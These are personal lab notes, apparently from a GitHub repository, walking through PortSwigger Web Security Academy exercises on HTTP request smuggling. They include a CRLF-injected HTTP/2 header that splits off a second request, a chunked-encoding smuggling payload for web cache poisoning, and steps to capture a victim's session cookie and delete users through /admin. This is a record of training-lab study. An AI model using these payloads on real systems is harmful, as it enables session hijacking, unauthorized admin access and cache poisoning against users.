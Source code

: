 Our get request indicate that we got the victim user session
Copy and change our session cookie and you should have access to the user 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/35ed1968-a234-44cc-82dc-283743d82f41)


![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/f02f495a-7d6f-414e-bc7e-70e451426a2b)


**HTTP/2 request splitting via CRLF injection**




Change path of get request to no existing path to get a 404 request
/x


To poison we add the following to the response header in inspector tab (shift+return)

```
Name:
foo

Value:
bar\r\n
\r\n
GET /x HTTP/1.1\r\n
Host: YOUR-LAB-ID.web-security-academy.net
```


Note
If you receive some 200 responses but can't capture a 302 response even after a lot of attempts, send 10 ordinary requests to reset the connection and try again. 

From <https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection> 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/f0202da5-fcff-4271-88b2-5704ac1de533)

Send until you get a 302 request
/admin directory
Copy the victim session cookie and replace it and you should be able to delete users 

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/bda93fb2-7a00-4e2e-8ce7-97ab1efff61c)

**Exploiting HTTP request smuggling to perform web cache poisoning**

Capture a request to next post  and smuggled request with different host header

```
POST / HTTP/1.1
Host: 0a12004404739ba183c707a400300006.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 135
Transfer-Encoding: chunked

0

GET /post/next?postId=4 HTTP/1.1
Host: ANYTHING
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```
